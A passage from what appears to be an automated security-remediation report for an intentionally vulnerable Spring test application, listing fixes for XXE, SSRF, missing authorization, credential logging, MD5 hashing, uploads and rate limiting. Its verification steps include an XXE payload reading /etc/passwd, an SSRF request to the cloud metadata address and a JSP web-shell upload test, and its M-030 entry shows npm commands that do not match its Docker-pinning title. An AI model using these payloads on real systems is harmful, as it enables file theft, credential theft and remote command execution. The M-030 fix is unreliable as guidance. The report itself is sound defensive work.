1. On the DocumentBuilderFactory instance, call `setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)`, `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`, and `setExpandEntityReferences(false)` before calling `newDocumentBuilder()`.
2. Set `factory.setXIncludeAware(false)` and `factory.setNamespaceAware(true)` as additional hardening.
3. Add a maximum document size check (e.g. limit the request body to 64 KB via Spring's `spring.servlet.multipart.max`-request-size or a custom HandlerInterceptor) to prevent billion-laughs amplification.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`: it applies **Harden DocumentBuilderFactory in XmlPreviewController to disable external entity processing**. The ordered steps above remain authoritative._

```javascript
// Before (XmlPreviewController.java:22): default factory — XXE enabled
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();

// After: XXE hardened
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setExpandEntityReferences(false);
factory.setXIncludeAware(false);
DocumentBuilder builder = factory.newDocumentBuilder();
```

**Verification:** `POST /api/xml/preview` with body <!DOCTYPE x [<!ENTITY e SYSTEM 'file:///etc/passwd'>]><root>&e;</root>; the server must return HTTP 400 or parse an empty root element - it must not embed the content of `/etc/passwd` in the response.

**Reference:** [CWE-611: Improper Restriction of XML External Entity Reference (XXE)](https://cwe.mitre.org/data/definitions/611.html)

---

<a id="m-025"></a>
#### M-025 — Validate and allowlist target URLs before issuing HTTP requests in IntegrationController

**Addresses:**

- 🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`

**How:**

1. Parse the supplied url with `java.net.URI` and enforce that the scheme is https and the host is in an explicit allowlist of permitted integration endpoints loaded from application properties.
2. Reject requests where the resolved IP address falls in RFC-1918 ranges (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16), the loopback range (127.0.0.0/8), or the link-local range (169.254.0.0/16) after DNS resolution.
3. Configure a custom SimpleClientHttpRequestFactory on the RestTemplate bean with a short connection timeout (e.g. 2 s) to limit blind-SSRF dwell time.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`: it applies **Validate and allowlist target URLs before issuing HTTP requests in IntegrationController**. The ordered steps above remain authoritative._

```javascript
// Before (IntegrationController.java:23): unrestricted URL
String body = restTemplate.getForObject(url, String.class);

// After: parse, allowlist, and resolve before fetch
private static final Set<String> ALLOWED_HOSTS = Set.of("api.partner.example.com");

URI target = URI.create(url);
if (!"https".equals(target.getScheme()) || !ALLOWED_HOSTS.contains(target.getHost())) {
    throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "URL not permitted");
}
InetAddress addr = InetAddress.getByName(target.getHost());
if (addr.isLoopbackAddress() || addr.isSiteLocalAddress() || addr.isLinkLocalAddress()) {
    throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "URL resolves to private network");
}
String body = restTemplate.getForObject(target, String.class);
```

**Verification:** Send `GET /api/integration/fetch?url=http://169.254.169.254/latest/meta-data/`; the server must return HTTP 400 and must not attempt any outbound connection to that address.

**Reference:** [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)

---

<a id="m-026"></a>
#### M-026 — Add structured security-event logging to all authorization decision points in access control controllers

**Addresses:**

- 🟠 [F-027](#f-027) — Missing Security Event Logging (`ProfileController.java:35`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:35`

**How:**

1. Create a `SecurityEventLogger` Spring component that writes structured JSON log entries (actor username, action, resource type, resource id, outcome, timestamp) to a dedicated security log appender.
2. In OrderAccessController and UserAccessController, log every read attempt with outcome (granted/denied) after the ownership check.
3. In `ProfileController.update()`, log role and admin field changes including the before/after values and the authenticated username.
4. In LegacyAdminBoardController, log every promote and delete action with the operator's remote IP and session identifier.
5. Route security events to an append-only sink (e.g. a separate log file with filesystem-level write protection, or a SIEM-forwarded channel) distinct from the application debug log.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:35`: it applies **Add structured security-event logging to all authorization decision points in access control controllers**. The ordered steps above remain authoritative._

```javascript
// SecurityEventLogger.java (new component):
@Component
public class SecurityEventLogger {
    private static final Logger SEC = LoggerFactory.getLogger("security");

    public void log(String actor, String action, String resourceType,
                    Object resourceId, String outcome) {
        SEC.info("{{\"actor\":\"{}\",\"action\":\"{}\",\"resource\":\"{}/{}\",\"outcome\":\"{}\"}}",
                actor, action, resourceType, resourceId, outcome);
    }
}

// In OrderAccessController:
// After fetching order, before returning:
securityEventLogger.log(auth.getName(), "READ_ORDER", "Order", id, "GRANTED");
```

**Verification:** After each IDOR test call, grep the security log for an entry containing the actor's username, the resource ID, and the outcome. Confirm no entry exists today (baseline) and appears after instrumentation.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-027"></a>
#### M-027 — Restrict GET /api/admin/report to ROLE_ADMIN with @PreAuthorize and remove the permitAll rule

**Addresses:**

- 🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:35`

**How:**

1. Remove line 34 from `SecurityConfig.java` (`requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()`) so the endpoint falls through to `anyRequest().authenticated()`.
2. Add `@PreAuthorize("hasRole('ADMIN')")` to `AdminReportController.report()` at line 35 to enforce the ADMIN role at the method level regardless of URL-matcher configuration.
3. Verify with a test that an unauthenticated request to `/api/admin/report` returns HTTP 403, and that an authenticated non-admin user also receives 403.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminReportController.java:35`: it applies **Restrict GET /api/admin/report to `ROLE_ADMIN` with @PreAuthorize and remove the permitAll rule**. The ordered steps above remain authoritative._

```javascript
// SecurityConfig.java — remove this line:
// .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()

// AdminReportController.java — add annotation:
@GetMapping("/report")
@PreAuthorize("hasRole('ADMIN')")
public Map<String, Object> report() { ... }
```

**Verification:** Send `GET /api/admin/report` without credentials; expect HTTP 403. Send with a session for user 'alice' (`ROLE_USER`); expect HTTP 403. Send with session for 'admin' (`ROLE_ADMIN`); expect HTTP 200.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-028"></a>
#### M-028 — Remove CredentialLoggingFilter entirely; if login tracing is needed, log only the username and outcome, never the password

**Addresses:**

- 🟠 [F-029](#f-029) — Plaintext Password Logged on Every Login (`CredentialLoggingFilter.java:25`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`

**How:**

1. Delete `CredentialLoggingFilter.java`. Logging raw credentials in any form (plaintext, hashed, partially masked) is a security defect with no legitimate operational justification.
2. If login activity tracing is required, add an AuthenticationSuccessHandler and AuthenticationFailureHandler that log only the username and outcome - never the password field.
3. Audit and rotate all passwords for users who have logged in since the filter was introduced, as those credentials exist in historical log data.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`: it applies **Remove CredentialLoggingFilter entirely; if login tracing is needed, log only the username and outcome, never the password**. The ordered steps above remain authoritative._

```javascript
// Safe alternative: log only username and outcome, never password
@Override
public void onAuthenticationSuccess(HttpServletRequest req, HttpServletResponse res, Authentication auth) {
    log.info("Login success: username={} ip={}", auth.getName(), req.getRemoteAddr());
}
```

**Verification:** Trigger a `POST /login` with valid credentials and search the application log for the password value - the fixed build must produce no log line containing the password string.

**Reference:** [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)

---

<a id="m-029"></a>
#### M-029 — Remove the MD5 hash from AppUser storage; rely solely on Spring Security's BCrypt credential store

**Addresses:**

- 🟠 [F-030](#f-030) — MD5 Password Hash Used in Registration Path (`RegistrationController.java:55`)

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:55`

**How:**

1. Remove the `legacyPasswordService.hashForAudit(password)` call from `RegistrationController.register()` and do not store any derived password material in the AppUser entity.
2. Delete or deprecate LegacyPasswordService if it serves no other purpose - its only method is a broken MD5 implementation.
3. If a password hash in AppUser is required for other functionality, use `PasswordEncoder.encode(password)` (BCrypt) and store the result - but avoid duplicating credential storage across two separate tables.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:55`: it applies **Remove the MD5 hash from AppUser storage; rely solely on Spring Security's BCrypt credential store**. The ordered steps above remain authoritative._

```javascript
// Before (RegistrationController.java:52-58):
appUserRepository.save(new AppUser(
    username, email,
    legacyPasswordService.hashForAudit(password),  // MD5 — remove this
    "USER", false));

// After: omit hashed password from AppUser, or use BCrypt:
appUserRepository.save(new AppUser(username, email, null, "USER", false));
```

**Verification:** Register a new user and query the AppUser table - the password column must be null or a BCrypt hash ($2a$...), never an MD5 hex string (32 lowercase hex characters).

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-030"></a>
#### M-030 — Pin base image to @sha256:&lt;digest&gt;

**Addresses:**

- 🟠 [F-031](#f-031) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:1`

_Example implementation in `Dockerfile:1`: it applies **Pin base image to @sha256:&lt;digest&gt;**._

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-031"></a>
#### M-031 — Move all symmetric keys to a secrets manager and inject via environment variables or @Value properties

**Addresses:**

- 🔴 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys (`LegacyCryptoService.java:13`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`

**How:**

1. Remove both key literals. Inject via `@Value("${crypto.xor.key}")` and `@Value("${crypto.export.key}")` into the respective Spring beans.
2. Store actual key values in AWS Secrets Manager, HashiCorp Vault, or Kubernetes Secrets - not in `application.properties` or `application.yml` committed to the repository.
3. Rotate both keys immediately after the source-control breach window closes. Plan for automated rotation every 90 days.
4. For the AES key, ensure the replacement key is at least 256 bits (32 bytes) generated from a CSPRNG, not a human-memorable ASCII string.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`: it applies **Move all symmetric keys to a secrets manager and inject via environment variables or @Value properties**. The ordered steps above remain authoritative._

```javascript
// Before — key literal in source
private static final byte[] KEY = "orderdesk-legacy-key".getBytes(UTF_8);

// After — injected from environment / secrets manager
@Value("${CRYPTO_XOR_KEY}")
private String xorKeyBase64;

@PostConstruct
void init() {
    this.key = Base64.getDecoder().decode(xorKeyBase64);
    if (key.length < 32) throw new IllegalStateException("XOR key too short");
}
```

**Verification:** Scan `git log for the literal strings` `orderdesk-legacy-key` and `0123456789abcdef` via `git grep -r 'orderdesk-legacy-key'`. Before fix: at least one commit hit. After fix: zero hits across all commits (use `git log -S 'orderdesk-legacy-key' --all`).

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-032"></a>
#### M-032 — Replace MD5 with BCrypt in LegacyPasswordService.hashForAudit and remove the public hashing endpoint

**Addresses:**

- 🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`)

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**How:**

1. Remove `MessageDigest.getInstance("MD5")` from LegacyPasswordService. Inject the existing `PasswordEncoder` bean (BCryptPasswordEncoder configured in SecurityConfig) and call `passwordEncoder.encode(password)` instead.
2. Remove or restrict the `/api/crypto/password-digest` endpoint - a public API that hashes arbitrary passwords on demand facilitates offline brute-force by exposing a consistent hashing oracle.
3. If a hash is required for audit purposes rather than verification, use HMAC-SHA-256 with a secret key (not a standalone hash) so the digest cannot be precomputed without the key.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`: it applies **Replace MD5 with BCrypt in LegacyPasswordService.hashForAudit and remove the public hashing endpoint**. The ordered steps above remain authoritative._

```javascript
// Before — MD5, no salt, rainbow-table vulnerable
MessageDigest digest = MessageDigest.getInstance("MD5");
byte[] hash = digest.digest(password.getBytes(StandardCharsets.UTF_8));

// After — BCrypt via the existing PasswordEncoder bean
// (BCryptPasswordEncoder already configured in SecurityConfig)
@Autowired
private PasswordEncoder passwordEncoder;

public String hashForAudit(String password) {
    return passwordEncoder.encode(password); // salted, adaptive cost, no rainbow table
}
```

**Verification:** Call `GET /api/crypto/password-digest?password=password`. Before fix: returns `5f4dcc3b5aa765d61d8327deb882cf99` - look this up in any rainbow table to confirm instant reversal. After fix: endpoint returns HTTP 403 or a BCrypt hash beginning with `$2a$` that cannot be rainbow-tabled.

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-033"></a>
#### M-033 — Hash all passwords with bcrypt before storing them in the SQLite legacy_users table

**Addresses:**

- 🟠 [F-034](#f-034) — Cleartext Password Storage in SQLite Database (`LegacySqliteUserStore.java:37`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`

**How:**

1. In `LegacySqliteUserStore.save()` (line 99), apply BCrypt hashing before storing: replace `statement.setString(2, password)` with `statement.setString(2, BCrypt.hashpw(password, BCrypt.gensalt(12)))`.
2. Update `authenticate()` (line 43) to compare using `BCrypt.checkpw(password, storedHash)` rather than a plaintext equality comparison in SQL.
3. Run a one-time migration to hash existing cleartext rows in `legacy_users` - include a migration script in the `@PostConstruct` that detects non-BCrypt values (they do not start with `$2a$`) and re-hashes them.
4. Delete the existing `runtime/legacy-auth.sqlite` file to remove the plaintext-password database; the `@PostConstruct` will recreate it with hashed seeds on next startup.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`: it applies **Hash all passwords with bcrypt before storing them in the SQLite legacy_users table**. The ordered steps above remain authoritative._

```javascript
// Before (LegacySqliteUserStore.java:99-100):
statement.setString(2, password);  // stores plaintext

// After — bcrypt hashed:
statement.setString(2, BCrypt.hashpw(password, BCrypt.gensalt(12)));

// In authenticate() — compare with checkpw instead of SQL equality:
// Remove password column from WHERE; fetch the row by username only, then:
if (resultSet.next() && BCrypt.checkpw(password, resultSet.getString("password"))) {
    return Optional.of(readUser(resultSet));
}
```

**Verification:** Inspect `runtime/legacy-auth.sqlite` with `sqlite3 runtime/legacy-auth.sqlite 'SELECT password FROM legacy_users LIMIT 1'` - the value must begin with `$2a$` (BCrypt prefix), not `password` or `admin`.

**Reference:** [CWE-256](https://cwe.mitre.org/data/definitions/256.html)

---

<a id="m-034"></a>
#### M-034 — Remove the password field from the LegacySqliteUser API response and require authentication on the /api/legacy-sqlite/users endpoint

**Addresses:**

- 🟠 [F-035](#f-035) — Cleartext Password Enumeration via Public API (`LegacySqliteUserStore.java:77`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:77`

**How:**

1. Remove the password field from the DTO or response mapping in `LegacySqliteAuthController.users()` so the serialized response never includes the password string, regardless of storage format.
2. Add authentication to the `/api/legacy-sqlite/users` endpoint by changing `SecurityConfig.java:40` from `permitAll()` to `.hasRole("ADMIN")` - user listing is an administrative function.
3. After switching to bcrypt storage (see 🟠 [F-034](#f-034)), ensure the serialized `LegacySqliteUser` record never exposes the `password` (or `passwordHash`) field to any caller.

**Verification:** Send `GET /api/legacy-sqlite/users` without credentials - the response must be HTTP 401 or 403. When called with valid admin credentials, the response body must not contain any `password` or `passwordHash` key.

**Reference:** [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)

---

<a id="m-035"></a>
#### M-035 — Exclude runtime/ credential stores from the Docker build context and purge them from image layers

**Addresses:**

- 🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers (`legacy-auth.sqlite`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `runtime/legacy-auth.sqlite`

**How:**

1. Add runtime/ to .dockerignore so COPY . `/app` does not include it: echo 'runtime/' >> .dockerignore
2. If legacy-auth.sqlite must exist at runtime, provision it at container start from a secrets manager (AWS Secrets Manager, Vault, Kubernetes Secret) rather than baking it in.
3. Audit existing published images with docker history <image> and docker save | tar x to confirm no credential files exist in prior layers; rebuild from scratch if they do.
4. Rotate all credentials stored in the baked-in SQLite database immediately.

**Verification:** After adding .dockerignore, rebuild the image and run: docker run --rm <image> ls `/app/runtime/legacy-auth.sqlite` - expect 'No such file or directory'. Confirm docker history shows no layer containing the file path.

**Reference:** [CWE-312](https://cwe.mitre.org/data/definitions/312.html)

---

<a id="m-036"></a>
#### M-036 — Restrict POST /legacy/admin/users/{id}/delete to ROLE_ADMIN or remove the legacy admin board entirely

**Addresses:**

- 🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:37`

**How:**

1. Replace the `permitAll()` rule for `/legacy/admin/**` in `SecurityConfig.java` with `.hasRole('ADMIN')`, as also required by 🔴 [F-002](#f-002).
2. If the legacy board is deprecated, delete `LegacyAdminBoardController.java` to remove both the promote and delete endpoints from the attack surface.
3. Implement a soft-delete pattern (e.g. `enabled` flag) rather than `appUserRepository.delete()` so accidental or malicious deletions can be reversed without a full database restore.
4. Add an integration test that sends `POST /legacy/admin/users/1/delete` from an unauthenticated session and asserts HTTP 401/403 with the user record still present in the database.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:37`: it applies **Restrict POST /legacy/admin/users/{id}/delete to `ROLE_ADMIN` or remove the legacy admin board entirely**. The ordered steps above remain authoritative._

```javascript
// SecurityConfig.java — fix both delete and promote in one change:
.requestMatchers("/legacy/admin/**").hasRole("ADMIN")
// (Removes the .permitAll() that currently allows anonymous access to delete.)
```

**Verification:** Without credentials, send `POST /legacy/admin/users/1/delete`. Expect HTTP 401 or 403. Query the database to confirm user 1 still exists.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-037"></a>
#### M-037 — Add per-IP and per-account rate limiting on all authentication endpoints using Bucket4j or spring-cloud-gateway

**Addresses:**

- 🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing (`SecurityConfig.java:30`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:30`

**How:**

1. Add Bucket4j (`io.github.bucket4j`:bucket4j-core) to the Spring Security filter chain as a servlet filter that limits `POST /login` and `POST /register` to 5 requests per minute per source IP.
2. Implement progressive delay (exponential backoff) after 3 failed login attempts for a given username using a short-lived in-memory or Redis counter.
3. Configure Spring Boot Actuator metrics for auth_failure_total and alert when it exceeds threshold in a sliding 60-second window.
4. For the SQLite legacy paths (`/api/legacy-sqlite/login` and `/api/legacy-sqlite/login-raw`), apply the same rate-limit filter or remove the endpoints from production.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:30`: it applies **Add per-IP and per-account rate limiting on all authentication endpoints using Bucket4j or spring-cloud-gateway**. The ordered steps above remain authoritative._

```javascript
// Bucket4j filter example (in SecurityConfig, applied before UsernamePasswordAuthenticationFilter):
Bucket bucket = Bucket.builder()
    .addLimit(Bandwidth.classic(5, Refill.intervally(5, Duration.ofMinutes(1))))
    .build();
// Apply per IP in a OncePerRequestFilter that checks the bucket before passing to the chain.
```

**Verification:** Submit 10 consecutive `POST /login` requests from the same IP within 60 seconds - requests 6–10 must receive HTTP 429 Too Many Requests.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-038"></a>
#### M-038 — Add a file size guard and rate limiting to the /api/files/read endpoint

**Addresses:**

- 🟠 [F-039](#f-039) — Unbounded File Read Exhausts JVM Heap via Path Traversal (`FileReadController.java:22`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:22`

**How:**

1. Check file size before reading: long size = `Files.size(path)`; if (size > `MAX_FILE_BYTES`) throw new `ResponseStatusException(HttpStatus.PAYLOAD_TOO_LARGE)`;
2. Add rate limiting via Spring's Bucket4j integration or an API gateway rule: limit unauthenticated callers to 10 requests/minute per source IP.
3. Set a JVM flag for max heap usage and configure the embedded Tomcat connection timeout (`server.tomcat.connection`-timeout=5000 in `application.properties`) to bound blocking reads.
4. The path-containment fix from 🔴 [F-010](#f-010) should be implemented first, as it limits which files can be targeted.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:22`: it applies **Add a file size guard and rate limiting to the /api/files/read endpoint**. The ordered steps above remain authoritative._

```javascript
// FileReadController.java — add before Files.readString:
private static final long MAX_FILE_BYTES = 1024 * 1024; // 1 MB
long size = Files.size(path);
if (size > MAX_FILE_BYTES) {
    throw new ResponseStatusException(HttpStatus.PAYLOAD_TOO_LARGE);
}
return Map.of("path", path.toString(), "content", Files.readString(path));
```

**Verification:** Place a 2 MB file in runtime/documents/ and send `GET /api/files/read?name=largefile.bin` - confirm HTTP 413. Send 20 concurrent requests to a valid small file - confirm the server remains responsive and returns HTTP 200 within 2 seconds for each.

**Reference:** [CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)

---

<a id="m-039"></a>
#### M-039 — Add ownership check to GET /api/orders/{id} handler or remove the unguarded path

**Addresses:**

- 🟠 [F-040](#f-040) — Insecure Direct Object Reference (`OrderAccessController.java:24`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`

**How:**

1. Remove the unprotected `@GetMapping("/{id}")` handler from OrderAccessController and route all order lookups through the `/api/orders/{id}/owned` path which already enforces admin-or-owner checks.
2. If a separate unauthenticated path is needed (e.g. for order-status checks), introduce a limited projection DTO that omits PII and restrict it with a dedicated URL pattern.
3. Add a Spring Security method-level annotation `@PreAuthorize("@authz.isOrderOwner(#id) or hasRole('ADMIN')")` on the handler if the path must remain, mirroring the inline check at `getOwned()`.
4. Add integration tests asserting that `GET /api/orders/{id}` with a session belonging to a different user returns HTTP 403.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`: it applies **Add ownership check to GET /api/orders/{id} handler or remove the unguarded path**. The ordered steps above remain authoritative._

```javascript
// Before — no ownership check:
@GetMapping("/{id}")
public ResponseEntity<OrderSummary> get(@PathVariable Long id) {
    return customerOrderRepository.findById(id)
            .map(OrderSummary::from).map(ResponseEntity::ok)
            .orElseGet(() -> ResponseEntity.notFound().build());
}

// After — enforce owner-or-admin before returning:
@GetMapping("/{id}")
@PreAuthorize("@authz.isOrderOwner(#id) or hasRole('ADMIN')")
public ResponseEntity<OrderSummary> get(@PathVariable Long id) {
    return customerOrderRepository.findById(id)
            .map(OrderSummary::from).map(ResponseEntity::ok)
            .orElseGet(() -> ResponseEntity.notFound().build());
}
```

**Verification:** Authenticate as user A, create order O1. Authenticate as user B and issue `GET /api/orders/O1`. Expect HTTP 403. Authenticate as ADMIN and issue the same request; expect HTTP 200.

**Reference:** [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)

---

<a id="m-040"></a>
#### M-040 — Enforce an extension and MIME-type allowlist in BusinessFileStorage before writing uploads to disk

**Addresses:**

- 🟠 [F-041](#f-041) — Unrestricted File Type Upload with No Extension or MIME Validation (`BusinessFileStorage.java:13`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:13`

**How:**

1. Define an allowlist of permitted extensions: private static final Set<String> `ALLOWED_EXTENSIONS` = `Set.of(".pdf", ".png", ".jpg", ".docx", ".xlsx")`;
2. Extract the extension from the sanitized filename and reject uploads not in the allowlist: String ext = `fileName``.substring(fileName.lastIndexOf('.'));` if (!`ALLOWED_EXTENSIONS`.contains(`ext.toLowerCase()`)) throw new `ResponseStatusException(HttpStatus.BAD_REQUEST, "File type not permitted")`;
3. Use Apache Tika or a magic-bytes check to verify the actual file content matches the declared type - filename and Content-Type headers are attacker-controlled.
4. Store uploaded files in a directory that is not served as static content, and never serve them with execute permissions.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:13`: it applies **Enforce an extension and MIME-type allowlist in BusinessFileStorage before writing uploads to disk**. The ordered steps above remain authoritative._

```javascript
// After filename sanitization (BusinessFileStorage.java, before transferTo):
private static final Set<String> ALLOWED = Set.of(".pdf",".png",".jpg",".docx");
int dot = fileName.lastIndexOf('.');
if (dot < 0 || !ALLOWED.contains(fileName.substring(dot).toLowerCase())) {
    throw new ResponseStatusException(HttpStatus.BAD_REQUEST, "File type not permitted");
}
```

**Verification:** `POST /documents` with a multipart file named `shell.jsp` containing <%=`Runtime.getRuntime()``.exec(request.getParameter("cmd"))%> -` expect HTTP 400. POST with `shell.pdf` (valid extension) - expect 200. Verify only the PDF reaches runtime/uploads/.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-041"></a>
#### M-041 — Require authentication and enforce owner-only access on GET /api/orders/search

**Addresses:**

- 🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email (`OrderSearchController.java:24`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`

**How:**

1. Change the SecurityConfig entry from .`requestMatchers(HttpMethod.GET, "/api/orders/search")`.`permitAll()` to .`requestMatchers(HttpMethod.GET, "/api/orders/search")`.`authenticated()` so that callers must be logged in.
2. Add @PreAuthorize("`hasRole('USER')`") on `OrderSearchController.search()` and inject Authentication to obtain the caller's identity; replace the email request parameter with the caller's own email derived from `authentication.getName()` (matching the pattern in `CleanProjectController.list()`).
3. If cross-user lookup by admins is a required use case, add a separate admin-scoped endpoint with @PreAuthorize("`hasRole('ADMIN')`") rather than permitting unauthenticated access.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`: it applies **Require authentication and enforce owner-only access on GET /api/orders/search**. The ordered steps above remain authoritative._

```javascript
// Before — accepts any email, no auth required
@GetMapping("/search")
public List<OrderSummary> search(@RequestParam String email) {
    return orderLookupDao.findByOwnerEmail(email)...;
}

// After — derives email from authenticated principal
@GetMapping("/search")
@PreAuthorize("hasRole('USER')")
public List<OrderSummary> search(Authentication authentication) {
    String email = resolveEmailFromPrincipal(authentication);
    return orderLookupDao.findByOwnerEmail(email)...;
}
```

**Verification:** Send `GET /api/orders/search?email=alice`@`example.com` without credentials and confirm HTTP 401 or HTTP 403. Authenticate as bob and confirm the endpoint returns only bob's orders, not alice's.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-042"></a>
#### M-042 — Restrict /api/admin/report to users with ROLE_ADMIN and require authentication

**Addresses:**

- 🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`

**How:**

1. In SecurityConfig, replace .`requestMatchers(HttpMethod.GET, "/api/admin/report")`.`permitAll()` with .`requestMatchers(HttpMethod.GET, "/api/admin/report")`.`hasRole("ADMIN")`.
2. Add @PreAuthorize("`hasRole('ADMIN')`") to `AdminReportController.report()` as a defence-in-depth method-security annotation.
3. Verify that the admin role is not assigned to untrusted users in the UserDetailsManager configuration.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`: it applies **Restrict /api/admin/report to users with `ROLE_ADMIN` and require authentication**. The ordered steps above remain authoritative._

```javascript
// Before (SecurityConfig.java:34): admin report is public
.requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()

// After: admin report requires ADMIN role
.requestMatchers(HttpMethod.GET, "/api/admin/report").hasRole("ADMIN")
```

**Verification:** Send `GET /api/admin/report` without credentials; the response must be HTTP 401 or 302 to the login page. Send with a USER-role session; the response must be HTTP 403.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-046"></a>
#### M-046 — Pin accepted JWT verification algorithms

**Addresses:**

